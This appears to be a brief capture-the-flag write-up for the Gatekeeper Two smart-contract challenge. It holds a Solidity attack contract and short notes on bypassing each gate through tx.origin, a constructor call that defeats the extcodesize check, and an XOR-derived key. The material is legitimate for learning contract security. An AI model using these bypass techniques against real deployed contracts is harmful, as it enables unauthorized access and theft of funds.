 ```javascript
pragma solidity ^0.6.0;

contract GatekeeperTwoAttack {
    constructor (address addr) public {
        bytes8 gate_key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1));
        (bool success, ) = addr.call(abi.encodeWithSignature("enter(bytes8)", gate_key));
        require(success);
    }
}
```

Gate 1 is just a simple `tx.origin` trick.
Gate 2 requires us to put the attack in the constructor so that `extcodesize(caller()) == 0`.
Gate 3 just requires us to calculate the key, which can be done by the inverse property of the XOR operator.